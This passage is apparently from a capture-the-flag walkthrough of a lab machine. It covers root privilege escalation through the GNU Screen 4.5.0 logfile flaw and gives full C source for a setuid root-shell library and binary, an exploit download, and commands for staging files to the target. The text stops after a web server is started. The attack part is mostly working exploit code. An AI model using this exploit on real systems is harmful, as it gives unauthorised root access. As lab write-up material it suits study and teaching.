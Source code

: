 ## Privilege Escalation
### Exploiting Screen 4.5.0 

The vulnerability consists in that the check opens the logfile with full root privileges. This allows us to truncate any file or create a root-owned file with any contents in any directory and can be easily exploited to full root access in several ways.


We download the exploit.

```console
root@kali:~$ wget https://www.exploit-db.com/download/41154 -O exploit.sh
```

I broke down the exploit, so it was not possible to run it directly.

libhax.c

```c
#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
__attribute__ ((__constructor__))
void dropshell(void){
    chown("/tmp/rootshell", 0, 0);
    chmod("/tmp/rootshell", 04755);
    unlink("/etc/ld.so.preload");
    printf("[+] done!\n");
}
```

rootshell.c

```c
#include <stdio.h>
int main(void){
    setuid(0);
    setgid(0);
    seteuid(0);
    setegid(0);
    execvp("/bin/sh", NULL, NULL);
}
```

We verify that gcc is installed on the target.

```console
www-data@straylight:/var/www/html/turing-bolo$ which gcc
which gcc
/usr/bin/gcc
www-data@straylight:/var/www/html/turing-bolo$
```

We start a python web server on port 80.

```console
root@kali:~$ python3 -m http.server 80
```
